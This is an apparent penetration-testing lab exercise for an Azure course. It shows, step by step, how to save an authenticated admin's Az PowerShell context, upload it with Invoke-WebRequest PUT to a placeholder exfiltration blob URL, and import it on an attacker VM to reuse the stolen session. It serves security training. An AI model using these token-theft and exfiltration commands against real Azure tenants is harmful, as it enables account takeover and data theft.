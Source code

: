 


## Hands-on exercise – stealing and reusing tokens from an authenticated Azure admin system
In this exercise, we will be exporting cached tokens from the system of an authenticated Azure admin user and reusing those tokens on our pentest VM. Here are the tasks that we will complete in this exercise:

### Task 1 - Review the information for this exercise

1. On your pentest VM, browse to the following path **`C:\Users\pentestadmin\Desktop\ExerciseFiles\Modules\03`** and open the file named **`admin-token-theft-info.txt`** for later reference. There are six values that you will find in the file:
   * **Azure Admin User - Username**: This is the Azure administrator username whose token will be stolen from a workstation.
   * **Azure Admin User - Password**: This is the password of the Azure administrator user whose credential will be stolen.
   * **VM Public IP**: The public IP of the Admin workstation VM that the token will be stolen from.
   * **VM Admin Username**: The local user that you will use to authenticate to the workstation.
   * **VM Admin User Password**: The password of the local user that you will use to authenticate to the workstation.
   * **Exfiltration Storage Location**: The blob container that you will exfiltrate the stolen credential to and download it from for reuse from your pentest VM.

### Task 2 - Connect to the victim's PC and exfiltrate the token (Windows)
1. Open an RDP client on your PC and connect to the **`VM Public IP`** listed in your exercise file. When prompted to authenticate, use the **`VM Admin Username`** value as the username and the **`VM Admin User Password`** value as the password.

2. Within the RDP session to VM, open a PowerShell console and authenticate to Azure as the victim admin using the following commands:
   * Replace the placeholders for **`AZURE_ADMIN_USER_PASSWORD`** and **`AZURE_ADMIN_USER_USERNAME`** with the actual values from your exercise file.
```
$SecurePassword = ConvertTo-SecureString "AZURE_ADMIN_USER_PASSWORD" -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential ("AZURE_ADMIN_USER_USERNAME", $SecurePassword)

Connect-AzAccount -Credential $Credential
```

3. Verify authentication using the following command:
* The command lists all the resource groups in the victim's Azure environment. If you get an error, verify that you have the correct username and password.
```
Get-AzResourceGroup
```

4. At this point, we can act as an attacker with an active session on the system and save the current context for exfiltration to another system for reuse.

5. Save the current authentication context and verify that the context has been saved using the following commands:
```
Save-AzContext -Path azureprofile.json
Get-ChildItem azureprofile.json
```

6. Compress the saved authentication context and verify using the following commands:
```
Compress-Archive -LiteralPath azureprofile.json -DestinationPath azureprofile.zip
Get-ChildItem azureprofile.zip
```

7. Exfiltrate the compressed authentication context to the blob container listed in your exercise file, using the following command. Replace the placeholder with the value of Exfiltration Storage Location. Ensure that there are no line breaks before pasting this. You should get an HTTP 201 response:
```
Invoke-WebRequest -Method 'PUT' -Uri 'TOKEN_EXFILTRATION_STORAGE_LOCATION' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"} -UseBasicParsing
```

### Task 3 - Reuse the stolen token from your pentest VM
* In this task, we will used the exfiltrated context to gain access as the user in another environment

1. Switch back to your pentest VM, open a PowerShell console. 

2. Verify that you currently do not have a connection to the victim's Azure environment by using the following commands. You should get an error message. The first command **`Disconnect-AzAccount`** logs you out of your own Azure environment if you have authenticated previously.
```
Disconnect-AzAccount 

Get-AzResourceGroup
```

3. Download and verify the exfiltrated context file using the following command. Replace the placeholder with the value of Exfiltration Storage Location that you copied from the script's output:
```
Invoke-WebRequest -Uri "TOKEN_EXFILTRATION_STORAGE_LOCATION" -OutFile azureprofile.zip

Get-ChildItem azureprofile.zip
```
    
4. Extract the downloaded file using the following command and verify the extracted file:
```
Expand-Archive -LiteralPath azureprofile.zip -DestinationPath .
Get-ChildItem -Filter azureprofile.*
```

5. Restore the authentication context to your pentest VM using the following command:
```
Import-AzContext -Path .\azureprofile.json
```

6. Verify that the context has successfully been applied to your pentest VM by running commands with the stolen admin authentication context. At this point, you have validated that an authentication context can be stolen from an administrator's system, exported, and reused from an attacker's system:
```
Get-AzResourceGroup
```

